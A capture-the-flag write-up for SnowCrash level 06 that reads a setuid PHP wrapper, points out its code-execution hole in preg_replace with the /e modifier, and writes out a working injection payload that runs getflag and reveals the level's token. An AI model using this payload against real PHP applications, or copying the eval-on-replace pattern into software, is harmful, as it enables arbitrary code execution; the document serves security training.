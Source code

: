 For this level, with a basic "ls -l" command we can see 1 executable and 1 php file.

	level06@SnowCrash:~$ ls -l
	total 12
	-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
	-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php

We need to see what it does.

	level06@SnowCrash:~$ cat level06.php
	#!/usr/bin/php
	<?php
	function y($m) { $m = preg_replace("/\./", " x ", $m);
					$m = preg_replace("/@/", " y", $m);
					return $m; }

	function x($y, $z) { $a = file_get_contents($y);
						$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
						$a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a);
						return $a; }

	$r = x($argv[1], $argv[2]); print $r;
	?>

To Resume this php script applies a series of transformations to its content, and output the result.
It has a huge security vulnerabily.
The use of /e in the "preg_replace" function is deprecated.
It allows the function to execute the replacement string as php code.
We now need to find out what input we need to give to this script.

We need to put the command in "[x ...]" to execute it and to get the correct syntax we used : 

https://www.php.net/manual/fr/language.types.string.php#language.types.string.parsing.complex

	level06@SnowCrash:~$ echo '[x {${exec(getflag)}}]' > /tmp/file

And then execute it

	level06@SnowCrash:~$ ./level06 /tmp/file
	PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
	PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4)
	: regexp code on line 1

